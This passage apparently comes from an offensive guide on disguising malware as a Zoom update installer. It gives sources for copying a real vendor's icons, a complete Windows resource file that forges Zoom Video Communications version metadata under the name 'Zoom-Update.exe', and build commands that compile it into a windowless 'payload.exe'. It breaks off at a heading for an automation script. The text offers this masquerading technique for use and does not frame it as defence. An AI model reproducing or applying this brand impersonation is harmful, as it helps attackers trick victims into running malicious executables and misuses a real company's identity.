 **Icon Sources:**
1. **Real application** (extract with Resource Hacker)
2. **Company website** (download favicon or press kit)
3. **Windows default icons** (for generic tools)
4. **Purchase from icon sites** (for professional appearance)

---

### Metadata Editing

**Update Windows metadata to match target:**

```ini
# resource.rc file
1 VERSIONINFO
FILEVERSION     5,16,10,0
PRODUCTVERSION  5,16,10,0
FILEFLAGSMASK   0x3fL
FILEFLAGS       0x0L
FILEOS          VOS__WINDOWS32
FILETYPE        VFT_APP
FILESUBTYPE     VFT2_UNKNOWN
BEGIN
    BLOCK "StringFileInfo"
    BEGIN
        BLOCK "040904b0"
        BEGIN
            VALUE "CompanyName",      "Zoom Video Communications, Inc."
            VALUE "FileDescription",  "Zoom Client Update Installer"
            VALUE "FileVersion",      "5.16.10.0"
            VALUE "InternalName",     "ZoomUpdate"
            VALUE "LegalCopyright",   "Copyright © 2024 Zoom Video Communications"
            VALUE "OriginalFilename", "Zoom-Update.exe"
            VALUE "ProductName",      "Zoom"
            VALUE "ProductVersion",   "5.16.10.0"
        END
    END
    BLOCK "VarFileInfo"
    BEGIN
        VALUE "Translation", 0x409, 1200
    END
END
```

**Compile into executable:**
```bash
windres resource.rc -o resource.o
gcc -o payload.exe main.o resource.o -mwindows
```

---

## 🛠️ Automation Script
